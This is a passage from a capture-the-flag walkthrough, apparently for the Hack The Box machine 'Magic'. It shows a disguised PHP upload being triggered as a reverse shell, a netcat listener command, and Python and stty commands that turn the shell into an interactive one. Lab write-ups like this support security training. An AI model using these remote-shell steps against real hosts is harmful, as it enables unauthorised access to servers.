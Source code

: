 And we have successfully uploaded it.

![f1913245c476d2ce82010fd518b2d627.png](/images/htb-magic/61ddc44ec507450c97e271612d3442d1.png)

### 6. PHP Reverse Shell
Let's setup a netcat listener on port 8000 to catch the reverse shell. 

```
nc -lvnp 8000
``` 

Next, we access the malicious file using a web browser `http://10.10.10.185/images/uploads/5.php.jpeg` to trigger the reverse shell. 

There we go, we caught the reverse shell. And we are logged in as www-data:

![7cdec398acb1ca8b182100801b6644f9.png](/images/htb-magic/7a88ec1ff4074c77b2e7bf853531d5d9.png)

Let's upgrade it to a full interactive shell using python. 

On the remote machine, run: 

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm-256color
export SHELL=/bin/bash
```

Next, background the reverse shell with Ctrl+Z, then run the following on the attacker machine: 

```bash
stty raw -echo;fg
reset
```	

### 7. Enumeration
Let's take a look at the /var/www/ folder to see what we can find. 
